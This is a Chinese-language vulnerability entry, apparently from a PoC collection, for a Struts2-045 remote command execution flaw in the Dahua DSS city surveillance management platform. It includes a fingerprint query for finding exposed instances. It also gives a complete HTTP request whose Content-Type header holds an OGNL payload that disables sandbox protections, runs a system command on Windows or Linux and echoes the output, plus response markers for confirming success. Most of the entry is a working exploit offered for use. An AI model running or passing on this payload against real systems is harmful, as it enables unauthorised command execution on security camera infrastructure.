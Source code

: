 ﻿# 大华城市安防监控系统平台管理 DSS Struct2-045

> 更新时间：2023-12-16

> 漏洞编号：

> 漏洞说明：大华城市安防监控系统平台管理 DSS 登录接口存在 Struct2-045漏洞，可执行系统命令并回显。

> 漏洞特征：body="/portal/include/script/dahuaDefined/headCommon.js?type=index"&&title="DSS"

> 验证脚本：HTTP

```
GET /admin/login_login.action HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Connection: close
```

> 响应代码特征：200

> 响应内容特征：root

> 上传文件定位：


> 验证文件来源：大华城市安防监控系统平台管理 DSS Struct2-045.poc
